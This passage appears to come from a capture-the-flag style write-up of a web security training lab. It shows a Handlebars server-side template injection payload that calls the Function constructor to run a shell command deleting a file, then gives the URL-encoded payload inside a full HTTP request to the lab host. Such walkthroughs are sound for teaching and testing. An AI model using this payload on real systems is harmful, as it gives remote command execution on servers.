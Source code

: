 and this one to delete the file:

```js
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```


I url-encode this, and put this in the request, as a value to `message`:

```http
GET /?message=wrtz%7B%7B#with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%20%20%20%20%7B%7B#with%20%22e%22%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B#with%20split%20as%20%7Cconslist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20(lookup%20string.sub%20%22constructor%22)%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B#with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20require('child_process').exec('rm%20morale.txt');%22%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B#each%20conslist%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B#with%20(string.sub.apply%200%20codelist)%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B/each%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%20%20%7B%7B/with%7D%7D%0A%7B%7B/with%7D%7D HTTP/2
Host: 0a55007a03081a9a8053716700560078.web-security-academy.net
```

The file is deleted, and the lab is solved.